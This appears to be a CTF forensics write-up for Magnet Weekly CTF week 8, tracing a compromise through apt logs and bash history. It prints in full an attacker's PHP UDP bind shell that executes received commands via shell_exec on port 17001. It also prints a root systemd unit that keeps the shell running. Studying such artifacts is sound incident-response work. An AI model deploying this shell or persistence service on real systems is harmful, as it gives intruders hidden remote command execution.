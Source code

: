 ```yaml
---
title: Magnet Weekly CTF 8 - Incident Response
excerpt: Solution to the Magnet Forensics CTF 8th week challenge. This week's challenge asks about some installed packages and a compromise.
tags: magnet-ctf ctf forensics
author: rms
---
```


### Challenge 1 – 15pts

> What package(s) were installed by the threat actor? Select the most correct answer!

This challenge asks us to find a package installed by the threat actor. We know from past weeks that `apt` is used on this system to install packages. Looking at the `apt` log file found at `/var/log/apt/history.log` shows an interesting last package. 

```
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.0-fpm:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-opcache:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-common:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php:amd64 (1:7.0+35ubuntu6.1), php7.0-json:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-readline:amd64 (7.0.33-0ubuntu0.16.04.6, automatic)
End-Date: 2019-10-07  01:30:41
```

This particular package was the last package installed and the only package installed since 2017. It's likely this image was made in response to the attack, and it makes sense the last package installed was installed by the attacker, especially with such a time difference. Entering in `php` reveals it is indeed the correct solution. 

### Challenge 2 - 5pts

Solving the first question releases another challenge.

> Why?
    - Hosting a database
    - Serving a webpage
    - To run a php webshell
    - Create a fake systemd service

Hm. Why would a threat actor install php of all things? Maybe the bash history recorded some commands the attacker ran. Grepping the `.bash_history` file under `/home/hadoop` for `php` reveals a single command:

```
ll /usr/local/hadoop/bin/cluster.php
```

Interesting. The contents of that file:

```
<?php

error_reporting(0);

$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;

        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
}
else {  exit;   }

?>
```

Ah. This php script loads a bind shell on port `17001` that can execute commands using `shell_exec`. This rules out using php for `Hosting a database`, `Serving a webpage`, and `To run a php webshell`. So the solution must be `Create a fake systemd service`? Lets double check. 

Using `ls -la etc/systemd/system/` we can see the system services:

```
drwxr-xr-x 12 root root 4096 Oct  6  2019 .
drwxr-xr-x  5 root root 4096 Nov  7  2017 ..
-rw-rw-r--  1 root root  246 Oct  6  2019 cluster.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 default.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 final.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 getty.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 graphical.target.wants
lrwxrwxrwx  1 root root   38 Nov  7  2017 iscsi.service -> /lib/systemd/system/open-iscsi.service
drwxr-xr-x  2 root root 4096 Oct  6  2019 multi-user.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 network-online.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 paths.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 sockets.target.wants
lrwxrwxrwx  1 root root   31 Nov  7  2017 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 sysinit.target.wants
lrwxrwxrwx  1 root root   35 Nov  7  2017 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 timers.target.wants
```

Hm. `clsuter.php` and `cluster.service`... Let's check that out with `cat etc/systemd/system/cluster.service`. 

```
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

So a bind shell is created using `cluster.php` which is started via a systemd service! Entering `Create a fake systemd service` reveals it is the correct solution!